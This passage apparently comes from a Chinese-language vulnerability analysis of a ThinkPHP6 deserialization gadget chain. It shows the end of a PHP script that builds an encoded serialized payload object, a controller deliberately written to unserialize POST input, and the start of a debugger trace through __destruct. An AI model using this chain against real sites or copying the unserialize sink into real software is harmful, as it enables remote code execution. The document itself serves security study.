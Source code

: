 ```bash
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'],
            ];
            $this->app = new \think\App();

        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(base64_encode(serialize($a)));
}
```

### 分析

在 Index.php 添加反序列化点：

```bash
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index(){
        if($_POST["a"]){
            unserialize(base64_decode($_POST["a"]));
        }
        return "hello";
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}
```

在 unserialize 打断点，进入调试首先是 Psr6Cache.php 的父类的 AbstractCache.php 的\_\_destruct() 方法：

```bash
public function __destruct()
    {
        if (! $this->autosave) {
            $this->save();
        }
    }
```
